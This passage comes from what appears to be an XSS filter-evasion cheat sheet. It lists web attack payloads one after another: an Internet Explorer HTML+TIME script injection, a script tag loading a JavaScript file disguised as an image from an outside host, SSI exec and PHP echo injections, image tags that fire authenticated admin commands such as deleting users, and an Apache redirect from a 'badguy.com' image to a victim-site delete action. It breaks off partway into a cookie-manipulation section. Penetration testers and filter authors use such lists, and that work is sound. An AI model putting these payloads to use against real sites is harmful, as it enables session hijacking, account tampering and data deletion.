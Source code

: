 This is how Grey Magic hacked Hotmail and Yahoo\!. This only works in Internet Explorer and Netscape 8.1 in IE rendering engine mode and remember that you need to be between HTML and BODY tags for this to work:

```
<HTML><BODY>
<?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">
<?import namespace="t" implementation="#default#time2">
<t:set attributeName="innerHTML" to="XSS<SCRIPT DEFER>alert("XSS")</SCRIPT>">
</BODY></HTML>
```

### Assuming you can only fit in a few characters and it filters against `.js`

You can rename your JavaScript file to an image as an XSS vector:

`<SCRIPT SRC="http://xss.rocks/xss.jpg"></SCRIPT>`

### SSI (Server Side Includes)

This requires SSI to be installed on the server to use this XSS vector. I probably don't need to mention this, but if you can run commands on the server there are no doubt much more serious issues:

`<!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://xss.rocks/xss.js></SCRIPT>'"-->`

### PHP

Requires PHP to be installed on the server to use this XSS vector. Again, if you can run any scripts remotely like this, there are probably much more dire issues:

```php
<? echo('<SCR)';
echo('IPT>alert("XSS")</SCRIPT>'); ?>
```

### IMG Embedded Commands

This works when the webpage where this is injected (like a web-board) is behind password protection and that password protection works with other commands on the same domain. This can be used to delete users, add users (if the user who visits the page is an administrator), send credentials elsewhere, etc.... This is one of the lesser used but more useful XSS vectors:

`<IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">`

#### IMG Embedded Commands part II

This is more scary because there are absolutely no identifiers that make it look suspicious other than it is not hosted on your own domain. The vector uses a 302 or 304 (others work too) to redirect the image back to a command. So a normal `<IMG SRC="httx://badguy.com/a.jpg">` could actually be an attack vector to run commands as the user who views the image link. Here is the .htaccess (under Apache) line to accomplish the vector (thanks to Timo for part of this):

`Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser`

### Cookie Manipulation

Admittedly this is pretty obscure but I have seen a few examples where `<META` is allowed and you can use it to overwrite cookies. There are other examples of sites where instead of fetching the username from a database it is stored inside of a cookie to be displayed only to the user who visits the page. With these two scenarios combined you can modify the victim's cookie which will be displayed back to them as JavaScript (you can also use this to log people out or change their user states, get them to log in as you, etc...):
